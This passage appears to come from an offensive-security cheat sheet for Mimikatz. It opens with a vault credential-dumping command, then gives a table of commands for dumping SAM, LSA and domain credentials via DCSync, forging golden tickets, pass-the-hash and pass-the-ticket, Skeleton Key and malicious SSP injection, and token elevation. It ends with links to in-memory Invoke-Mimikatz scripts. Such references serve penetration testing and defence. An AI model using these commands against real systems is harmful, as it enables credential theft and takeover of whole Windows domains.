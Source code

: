 ```powershell
vault::cred /in:C:\Users\demo\AppData\Local\Microsoft\Vault\"
```

## Commands list

| Command |Definition|
|:----------------:|:---------------|
| CRYPTO::Certificates|list/export certificates|
|CRYPTO::Certificates | list/export certificates|
|KERBEROS::Golden | create golden/silver/trust tickets|
|KERBEROS::List | list all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.|
|KERBEROS::PTT | pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).|
|LSADUMP::DCSync | ask a DC to synchronize an object (get password data for account). No need to run code on DC.|
|LSADUMP::LSA | Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file. Also used to get specific account credential such as krbtgt with the parameter /name: “/name:krbtgt”|
|LSADUMP::SAM | get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. This is used to dump all local credentials on a Windows computer.|
|LSADUMP::Trust | Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly). Dumps trust keys (passwords) for all associated trusts (domain/forest).|
|MISC::AddSid | Add to SIDHistory to user account. The first value is the target account and the second value is the account/group name(s) (or SID). Moved to SID:modify as of May 6th, 2016.|
|MISC::MemSSP | Inject a malicious Windows SSP to log locally authenticated credentials.|
|MISC::Skeleton | Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a “master password” (aka Skeleton Keys) as well as their usual password.|
|PRIVILEGE::Debug | get debug rights (this or Local System rights is required for many Mimikatz commands).|
|SEKURLSA::Ekeys | list Kerberos encryption keys|
|SEKURLSA::Kerberos | List Kerberos credentials for all authenticated users (including services and computer account)|
|SEKURLSA::Krbtgt | get Domain Kerberos service account (KRBTGT)password data|
|SEKURLSA::LogonPasswords | lists all available provider credentials. This usually shows recently logged on user and computer credentials.|
|SEKURLSA::Pth | Pass- theHash and Over-Pass-the-Hash|
|SEKURLSA::Tickets | Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer’s AD computer account. Unlike kerberos::list, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).|
|TOKEN::List | list all tokens of the system|
|TOKEN::Elevate | impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box|
|TOKEN::Elevate /domainadmin | impersonate a token with Domain Admin credentials.|

## Powershell version

Mimikatz in memory (no binary on disk) with :

* [Invoke-Mimikatz](https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1) from PowerShellEmpire
* [Invoke-Mimikatz](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1) from PowerSploit
